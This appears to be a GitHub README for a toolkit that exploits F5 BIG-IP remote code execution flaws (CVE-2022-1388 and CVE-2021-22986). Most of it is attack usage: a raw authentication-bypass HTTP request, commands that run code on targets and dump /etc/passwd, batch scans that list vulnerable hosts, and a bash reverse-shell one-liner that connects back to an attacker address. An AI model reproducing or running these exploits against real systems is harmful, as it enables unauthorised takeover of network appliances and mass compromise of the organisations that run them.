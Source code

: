 # 2022-2021-RCE
I modified it so you can use CVE-2022-1388/CVE-2021-22986 and F5 BIG-IP RCE vuln checks and exploiters
the normal check.py and exp.py is 2022 but CVE_2021, newpoc, and f5.rest.jar are from the 2021 version
Idk why but I added the CVE-2022-1388 REST Auth Bypass RCE

but all you gotta do is do python check.py to see all cmds

<strong>2021/CVE_2021 Basic use</strong>
```
python3 CVE_2021.py
```
```
Vuln check: python3 CVE_2021_.py -v true -u https://192.168.174.164
```
```
command execute: python3 CVE_2021.py -a true -u https://192.168.174.164 -c id
```
```
python3 CVE_2021.py -a true -u https://192.168.174.164 -c whoami
```
```
batch scan: python3 CVE_2021_.py -s true -f url.txt
```
```
Reserve Shell: python3 CVE_2021.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```
```
New POC: python3 newpoc.py https://192.168.174.164
```
```
Validation mode：python CVE_2021.py -v true -u target_url 
```
```
Attack mode：python CVE_2021.py -a true -u target_url -c command 
```
```
Batch detection：python CVE_2021.py -s true -f file
```
```
Bounce mode：python CVE_2021.py -r true -u target_url -c command 
```
<strong>2022/Check.py Basic use</strong>

Vulnerability name: F5 BIG-IP iControl Rest API exposed Check

```
Function: single detection, batch detection    
```
```
Single detection：python exp.py -u url
```
```
Batch detection：python exp.py -f url.txt
```
```
Check: python check.py -f url.txt
```
<strong>2022/CVE-1388.py basic usage</strong>

this is the CVE-2022-1388 REST Auth Bypass RCE

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close, X-F5-Auth-Token, X-Forwarded-For, Local-Ip-From-Httpd, X-F5-New-Authtok-Reqd, X-Forwarded-Server, X-Forwarded-Host
Content-type: application/json
X-F5-Auth-Token: anything
Authorization: Basic YWRtaW46
Content-Length: 42

{"command": "run", "utilCmdArgs": "-c id"}
```

Vulnerability detection against a URL.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110
[+] https://192.168.2.110 is vulnerable!!!
```

Execute arbitrary commands.

```bash
$ python CVE-2022-1388.py -u https://192.168.2.110 -c 'cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
tmshnobody:x:32765:32765:tmshnobody:/:/sbin/nologin
admin:x:0:500:Admin User:/home/admin:/usr/bin/tmsh
qemu:x:107:107:qemu user:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/:/sbin/nologin
syscheck:x:199:10::/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
f5_remoteuser:x:499:499:f5 remote user account:/home/f5_remoteuser:/sbin/nologin
......
```

Read all URLs in the file and perform vulnerability detection.

```bash
$ python CVE-2022-1388.py -f urls.txt
[-] https://10.1.6.5 is not vulnerable.
[+] https://10.1.92.34 is vulnerable!!!
[+] https://10.2.124.144 is vulnerable!!!
[+] https://10.1.194.22 is vulnerable!!!
[+] https://10.2.21.132 is vulnerable!!!
[+] https://10.1.236.2 is vulnerable!!!
[+] https://10.3.155.2 is vulnerable!!!
[+] https://10.2.155.4 is vulnerable!!!
[+] https://10.3.151.92 is vulnerable!!!
[+] https://10.4.139.131 is vulnerable!!!
[+] https://10.7.226.141 is vulnerable!!!
[+] https://10.1.129.53 is vulnerable!!!
[+] https://10.9.45.2 is vulnerable!!!
[+] https://10.5.96.105 is vulnerable!!!
[+] https://10.3.156.6 is vulnerable!!!
$ cat success.txt
https://10.1.92.34
https://10.2.124.144
https://10.1.194.22
https://10.2.21.132
https://10.1.236.2
https://10.3.155.2
https://10.2.155.4
https://10.3.151.92
https://10.4.139.131
https://10.7.226.141
https://10.1.129.53
https://10.9.45.2
https://10.5.96.105
https://10.3.156.6
```
<strong>exp.py basic usage</strong>

```
       Validation mode：python CVE_2022.py -v true -u target_url 
       Attack mode：python CVE_2022.py -a true -u target_url -c command 
       Batch detection：python CVE_2022.py -s true -f file
       Bounce mode：python CVE_2022.py -r true -u target_url -c command 
      ================================================================
       Validation mode：python exp.py -v true -u target_url 
       Attack mode：python exp.py -a true -u target_url -c command 
       Batch detection：python exp.py -s true -f file
       Bounce mode：python exp.py -r true -u target_url -c command 
```
